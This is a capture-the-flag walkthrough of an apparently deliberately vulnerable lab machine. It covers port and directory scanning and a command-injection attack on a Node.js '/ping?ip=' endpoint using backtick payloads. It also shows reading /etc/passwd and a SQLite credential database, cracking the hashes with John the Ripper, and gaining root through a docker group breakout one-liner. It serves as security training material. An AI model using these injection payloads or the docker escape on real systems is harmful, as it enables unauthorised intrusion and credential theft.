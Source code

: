 **Tristan Gomez**

## Recon

I began with a classic nmap scan, using no arguments. I don't usually run very in-depth scans right off-the-bat (i.e. scanning all ports or using -Pn) because it takes quite a bit of time to run, and you don't ususally find anything more. If there is/are only 1 or no services open then I would run a more in-depth scan. Below, we can see that we have four services running. I always like to go for the 'low habing fruit' first to see if there is anything juicy to find.  In this case it'll be checking if anonymous ftp is allowed...
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

ANNNNDDDD anonymous ftp is not allowed. Darn, we will have to do this the hard way. Since we have two web services running, let's enumerate them and see what we find...

Using `gobuster` we find two endpoints. One that we can successfully GET (auth) and the second is a server error (ping). 
```
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
            
```

Exploring `/ping` we get an error when we get to the page. Huh... well I'm not the best at diagnosing these layers of errors, but I have an idea.
At the end of the url is `?ip=`. Let's try to break it by injecting stuff and see what happens... 
```
TypeError: Cannot read property 'replace' of undefined
    at app.get (/home/www/api/index.js:45:29)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/api/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
    at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
    at /home/www/api/node_modules/cors/lib/index.js:224:17
```

You can usually get an idea of what is running on the 'other-side' by
injecting stuff and viewing the response. I am going to put in `'` and `"` to see if I get an error message.

`http://10.10.1.197:8081/ping?ip='` gives the error `/bin/sh: 1: Syntax error: Unterminated quoted string`.

DING DING DING!!! We have something to work with. These commands are being passed to a shell, so let's mess around with it more to see what we can do.

I tried `'pwd'` and `"pwd"` to no avail; however, using backticks like so...
```
http://10.10.1.197:8081/ping?ip=`pwd`
```

Gives me `ping: /home/www/api: Temporary failure in name resolution`. Okay, so now it appears that we have a means to successfully get code execution. Let's leverage this to get some usable info. 

Injecting `ls` gives us the name of the database being used `utech.db.sqlite`. Let's dump the contents of `/etc/passwd` to get part of the information that `john the ripper` needs to crack hashed passwords. Then let's dump `utech.db.sqlite` to get the other half of the data that `john` needs.

`cat /etc/passwd` -> `www:x:1002:1002::/home/www:/bin/sh:`

`cat utech.db.sqlite` -> ` ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

Now `john the ripper` to crack the password using `rockyou.txt` as wordlist yields `r00t:n100906` and `admin: mrsheafy`. The admin password appears to be incorrect, but the credentials for `r00t` are valid. Let's ssh in!

First thing that I like to do is check the sudo permissions for the user I login as. 
```
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

 Well that is a let down... 
 Let's see what our id's are. Maybe there's something interesting.
 ```
 r00t@ultratech-prod:/$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)

 ```
 
 Ooooooh, we are part of the docker group. We can probably leverage this. I am going to checkout GTFObins because they are my main source for privesc exploits. Looking at their entries for `docker` we can see that running `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` can break us out of restrictive environments. As you can see below, I tried running the command...
 ```
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).

 ```
  
And, I got errors, no dice this time. Looking into the issue, I can see that `alpine` doesn't exist on the system. I got stuck here because I was very new to docker at the time I attempted this challenge. I decided to look at walkthroughs for this challenge to learn what I was doing wrong. Never be afraid to look at walkthroughs when you get stuck! The entire goal of these problems is to learn, so go out and learn! I've looked at tons of walkthroughs while attempting challenges and they can entirely shift your perspective as to what's possible in the realm of computing. (Okay, soapbox moment over). 

Turns out I just needed to replace `alpine` with `bash` and GG. As you can see, I was able to get root access. Just `cat` the root flag and congrats!
 ```
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
 ```
